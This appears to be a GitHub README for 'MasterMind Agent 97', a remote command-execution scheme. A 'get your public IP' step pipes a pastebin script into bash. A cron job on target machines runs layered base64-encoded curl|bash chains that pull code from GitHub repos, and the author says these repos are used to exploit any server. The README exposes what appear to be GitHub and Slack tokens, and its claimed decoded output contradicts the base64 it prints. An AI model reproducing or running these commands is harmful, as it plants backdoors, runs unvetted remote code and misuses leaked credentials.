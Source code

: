 #### Welcome  [ MasterMind Agent 97 ]

**Agent 97** : v0.0.2

Let's Explore **MasterMind Agent 97**

Run below command to Get Your Public IP.
```bash
  # Retrive Your Public IP
  curl -s https://pastebin.com/raw/DGbDe6LZ|bash -
```

##### Step 1

Create Script and encode with base64
```bash
# /tmp/script.sh
#!/bin/bash
echo "hello World"
ifconfig
ls -la
pwd
```

##### Encode with Base64
Create `mm.key` file using below command  and commit this file in `MasterMind` repository.
```bash
# Command will create encoded file mm.key
 base64 /tmp/script.sh > <MasterMind Repo>/mm.key
```


#### Lets Explore More about Backend Concept.

##### How to install MasterMind Agent
We require to configure below command on remote machine. we can configure cron to execute periodically.

```bash
# below commmand should be run from remote machine.
#vim vim /etc/cron.daily/mm
eval $(echo "Y3VybCAtc0wgaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3N3dXhlbi9sSS9tYXN0ZXIvcy50eHR8YmFzZTY0IC1kCg=="|base64 -d|bash -)
```
#### Layars Decode :

 1. Decoded `curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt|base64 -d`

 ```bash
#curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt|base64 -d
echo "curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt|base64 -d"|base64

 # output
Y3VybCAtc0wgaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3N3dXhlbi9sSS9tYXN0ZXIvcy50eHR8YmFzZTY0IC1kCg==
 ```

 2. Decoded : `curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt|base64 -d`

  ```bash
  # data s.txt
  curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt

  # output: Encoded : s.txt
  Y3VybCAtc0wgLXUgYTgwNDczMTg1YjNmYTM2NTNiMmZjNmMzYzJjMjY5OWRjY2M1NWFjNzp4LW9hdXRoLWJhc2ljIGh0dHBzOi8vcmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbS9zd3V4ZW4vbWFzdGVybWluZC9tYXN0ZXIvbW0ua2V5fGJhc2U2NCAtZHxiYXNoIC0K

  # Decoding s.txt file
  curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt|base64 -d
  # output : Decoded : s.txt
  curl -sL -u a80473185b3fa3653b2fc6c3c2c2699dccc55ac7:x-oauth-basic https://raw.githubusercontent.com/swuxen/mastermind/master/mm.key|base64 -d|bash -

  ```

 3. Decoded : `curl -sL -u a80473185b3fa3653b2fc6c3c2c2699dccc55ac7:x-oauth-basic https://raw.githubusercontent.com/swuxen/mastermind/master/mm.key|base64 -d|bash -`
  ```bash
  # File data : mm.key file
  curl -sL -u a80473185b3fa3653b2fc6c3c2c2699dccc55ac7:x-oauth-basic https://raw.githubusercontent.com/swuxen/mastermind/master/mm.key

  # output :
  IyEvYmluL2Jhc2gKZXhwb3J0IFNMQUNLX0NMSV9UT0tFTj0neG94Yi05NTI4MjkzMTc2MzUtOTU3
  OTQ3MTQxNjk5LUdVWXJFM2I2ZXhIWmNvS3dQaDM0QVlTYycKZXhwb3J0IFNMQUNLX0NIQU5ORUw9
  IiNkZXZvcHMiClNMQUNLX0JJTj0iL3Vzci9iaW4vbXNsYWNrIgpnZXRfc2VydmVyX2luZm8oKXsK
  ICBleHBvcnQgUFJJVkFURV9JUD0kKGhvc3RuYW1lIC1JKQogIGV4cG9ydCBQVUJfSVA9JChjdXJs
  IC1zIGljYW5oYXppcC5jb20pCiAgZXhwb3J0IFRJTUVTVEFNUD0kKGRhdGUpCn0KZ2V0X3VzZXJf
  ZGF0YSgpewogIGxvZ19wYXRoPS90bXAvdWluZm8ubG9nCiAgZ2V0X3NlcnZlcl9pbmZvCiAgZWNo
  byAiCkEgU1NIIGxvZ2luIHdhcyBzdWNjZXNzZnVsLCBzbyBoZXJlIGFyZSBzb21lIGluZm9ybWF0
  aW9uIGZvciBzZWN1cml0eToKICAgIFVzZXIgICAgICAgICAgIDogICRVU0VSCiAgICBVc2VyIElQ
  IEhvc3QgICA6ICAke1NTSF9DTElFTlQvICp9CiAgICBEYXRlICAgICAgICAgICA6ICAke1RJTUVT
  VEFNUH0KICAgIEhvc3RuYW1lICAgICAgIDogIGBob3N0bmFtZWAKICAgIFNlcnZlciBJUCAgICAg
  IDogICR7UFVCX0lQfSB8ICR7UFJJVkFURV9JUH0KCiAgICBXZSB3aWxsIG5vdGlmeSB5b3Ugb25j
  ZSB1c2VyWyRVU0VSXSB3aWxsIGVuZCBzZXNzaW9uLgogICIgPiAke2xvZ19wYXRofQoKICBpZiBb
  WyAtZiAiJHtsb2dfcGF0aH0iIF1dOyB0aGVuCiAgICBjYXQgJHtsb2dfcGF0aH0gfCAke1NMQUNL
  X0JJTn0gY2hhdCBzZW5kIC0tY2hhbm5lbCAiJHtTTEFDS19DSEFOTkVMfSIgXAogICAgICAtLXRp
  dGxlICJTU0ggbG9naW4gc3VjY2Vzc2Z1bCAtICR7VVNFUn1AJHtQUklWQVRFX0lQfSBvbiAke1RJ
  TUVTVEFNUH0iIFwKICAgICAgLS1jb2xvciBnb29kID4gL2Rldi9udWxsIDI+JjEKICAgIHJtIC1m
  ICR7bG9nX3BhdGh9CiAgZmkKfQpnZXRfdXNlcl9kYXRhCg==

  # Decoding mm.key
   curl -sL -u a80473185b3fa3653b2fc6c3c2c2699dccc55ac7:x-oauth-basic https://raw.githubusercontent.com/swuxen/mastermind/master/mm.key|base64 -d

   # Decoded output : /tmp/script.sh | mm.key
   #!/bin/bash
   echo "hello World"
   ifconfig
   ls -la
   pwd
  ```

We are using two repository to exploit any Server.

- Public Repository -  https://github.com/swuxen/lI.git
- Private Repository - https://github.com/swuxen/mastermind
